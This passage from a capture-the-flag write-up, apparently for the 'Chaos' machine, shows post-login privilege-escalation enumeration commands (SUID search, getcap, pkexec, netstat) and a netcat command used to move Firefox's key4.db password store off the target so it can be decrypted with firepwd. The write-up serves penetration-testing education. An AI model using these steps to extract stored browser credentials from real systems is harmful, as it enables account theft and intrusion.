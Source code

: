 ```bash
man su
# -, -l, --login
# Start the shell as a login shell with an
# environment similar to a real login
```

```bash
su - ayush

export PATH=.......

find \-perm -4000 2>/dev/null
which pkexec | xargs ls -l

getcap -r / 2>/dev/null
id
groups
netstat -nat
ps -faux
```

<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_66.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_67.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_68.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_69.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/chaos_writeup/Chaos_70.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I try to transfer the **key4.db** file to my machine and if I search the Internet for "**firefox key4.db decrypt github**" I find a repository **[Firepwd.py, an open source tool to decrypt Mozilla protected passwords](https://github.com/lclevy/firepwd){:target="_blank"}**, but I cannot run it on my machine, but I also notice that it needs all the resources contained in the user's profile folder.

> **key4.db**: It's a sensitive file which can be used to get all saved logins, without logging into the OS. It's rare for users to make it safe using Primary Password capability in Firefox Settings. also when Primary Password is set, the performance drops specifically.

> **Victime Machine**:

```bash
nc -nlvp 443 > key4.db
```
